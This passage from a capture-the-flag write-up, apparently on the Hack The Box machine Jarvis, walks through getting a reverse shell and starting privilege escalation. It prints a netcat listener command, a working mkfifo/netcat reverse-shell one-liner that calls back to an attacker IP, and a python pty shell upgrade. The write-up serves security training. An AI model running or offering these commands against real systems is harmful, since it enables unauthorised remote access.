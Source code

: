 
It worked! Now it's a matter of finding a valid payload for a reverse shell. 


First, I start a local listener on my attack machine with:

```bash
rlwrap nc -lnvp 443
```

And after a bit of trial and error I found that a netcat based payload works:

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.34 443 >/tmp/f
```

![shell-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/shell-19.png)


## Privilege Escalation


After landing on the machine I spwan a TTY shell by running:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then I list any sudo permissions we have as the `www-data` service account:

![www-sudo-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/www-sudo-20.png)


We are able to run this `simpler.py` script as the `pepper` user, which is the only user account on the system:

![users-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jarvis/img/users-21.png)

